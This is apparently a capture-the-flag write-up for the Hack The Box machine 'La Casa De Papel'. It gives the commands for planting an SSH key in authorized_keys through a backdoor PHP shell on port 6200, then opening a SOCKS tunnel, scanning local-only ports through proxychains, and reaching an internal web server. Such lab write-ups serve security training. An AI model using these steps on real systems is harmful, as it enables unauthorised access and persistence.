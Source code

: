 
#La_Casa_De_Papel

Alternate way to get into the box, we don't need to do any certificate to log in as in the intended way.

Generate a new rsa public/private key with ssh-keygen, take the public key id_rsa.pub lets convert to base64, and call it PAYLOADBASE64


Log into the nc port 6200 after exploiting vsftd where we have a limited php enviroment, we have to upload the payload to /home/dali/.ssh/authorized_keys (we can overwrite it)
```
$>nc 10.10.10.131 6200
unlink("/home/dali/.ssh/authorized_keys");
fwrite(fopen("/home/dali/.ssh/authorized_keys","w+"),base64_decode("PAYLOADBASE64"));
```

Now we can log it using ssh to test the id_rsa we generated before, but we are not doing any command stuff, we just use it to enable a dynamic tunnel with the machine.

```
$>ssh -i id_rsa -D 1080 dali@10.10.10.131
```

In other terminal, using proxychains we can scan the ports that are open only for local connections

```
$>proxychains nmap -sT -n -Pn 127.0.0.1 -p-

PORT     STATE SERVICE
8000/tcp open  http-alt
```

Port 8000 is open, and if we scan it we can see that is a web server, is the same webserver we can browse if we use the intented way of entering the machine, but locally we don't need any certificate.

```
$>proxychains curl 127.0.0.1:8000
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:8000-<><>-OK
<li><a href="?path=SEASON-1">SEASON-1</a></li><li><a href="?path=SEASON-2">SEASON-2</a></li><li><strong>Select a season</strong></li>
```

You have here also a python script to upload a public key and the private id_rsa file to enable the dynamic tunnel


